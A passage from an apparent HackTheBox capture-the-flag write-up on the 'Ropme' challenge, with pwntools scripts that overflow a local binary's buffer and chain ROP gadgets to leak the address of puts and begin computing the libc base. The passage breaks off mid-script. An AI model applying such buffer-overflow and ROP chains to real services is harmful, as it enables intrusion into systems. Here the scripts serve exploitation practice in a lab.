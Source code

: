 
### Exploit 2


We should see the address of puts being leaked

```python
#!/usr/bin/python3

from pwn import *

log.info("Pwnage by memN0ps!!!")

context(os="linux", arch="amd64")
context.log_level="DEBUG"
#context(terminal=['tmux', 'new-window'])

p = process("./ropme")
#p = gdb.debug("./ropme", "b main")


pop_rdi = p64(0x4006d3)
got_puts = p64(0x601018)
plt_puts = p64(0x4004e0)
plt_main = p64(0x4004f0)


payload = b"A" * 72
payload += pop_rdi
payload += got_puts
payload += plt_puts
payload += plt_main

p.recvuntil("ROP me outside, how 'about dah?")
p.sendline(payload)

p.interactive()
```

![6](/HackTheBox-Pwn-Ropme/6.png)

## Exploit 3

To find the address of libc we can use this `libc = leaked_puts - libc_puts` which takes the puts offset and subtracts it from the leaked address

We can use the following exploit to calculate the base address of libc.


```python
#!/usr/bin/python3

from pwn import *

log.info("Pwnage by memN0ps!!!")

context(os="linux", arch="amd64")
context.log_level="DEBUG"
#context(terminal=['tmux', 'new-window'])

#p = process("./ropme")
p = gdb.debug("./ropme", "b main")


pop_rdi = p64(0x4006d3)
got_puts = p64(0x601018)
```
